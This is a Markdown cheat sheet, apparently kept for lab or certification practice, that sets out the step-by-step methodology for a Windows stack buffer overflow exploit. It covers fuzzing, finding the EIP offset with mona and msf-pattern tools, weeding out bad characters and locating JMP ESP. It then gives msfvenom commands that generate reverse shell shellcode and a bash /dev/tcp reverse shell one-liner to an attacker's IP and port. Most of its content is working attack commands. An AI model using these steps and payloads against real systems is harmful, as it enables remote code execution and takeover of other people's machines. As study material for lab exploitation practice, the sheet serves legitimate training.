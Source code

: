 # methodology

## Getting MSP and EIP



Run Immunity Debugger as administrator

Configure Mona working folder using `!mona config -set workingfolder c:\kashz\%p`

Run `fuzzer.py` and note the crash byte number

set PAYLOAD = Generate pattern 400 bytes more than crash using

```
msf-pattern_create -l <number>
```



Run `exploit.py` and find offset

```
!mona findmsp -distance <number> 
OR
msf-pattern_offset -l <number> -q <EIP>

# should show in log windows as 
EIP contains normal pattern : 0x6f43396e (offset 1978)
```



set OFFSET, clear PAYLOAD, set RETURN = iiii (69696969). Run `exploit.py`

EIP` (should be) =`69696969

## Finding BadChars



Generate byte-array using mona excluding the `\x00` null byte

```
!mona bytearray -cpb "\x00"
```

set PAYLAOD = (byte-array). Run

Note ESP and run

```
!mona compare -f C:\kashz\bytearray.bin -a <ESP_address>
Use mona memory corruption and look at all 
```

Remove bad-char from mona byte-array and PAYLOAD 4.2. Status = unmodified

## Finding JMP

Locate all JMP ESPs

```
!mona jmp -r esp -cpb "\x00\xXX"
# little endian style backwards
```

set RETN =

## PAYLOAD

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=6969 EXITFUNC=thread -b "<badChars>" -f c
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=6969 EXITFUNC=thread -b "<badChars>" -f c

# windows under linux (wine)
bash -i >& /dev/tcp/IP/PORT 0>&1
```

## Prepend NOPs (\x90)

```
# as an encoder was used, space in memory is needed to unpack
padding = ""\x90" * 16
```
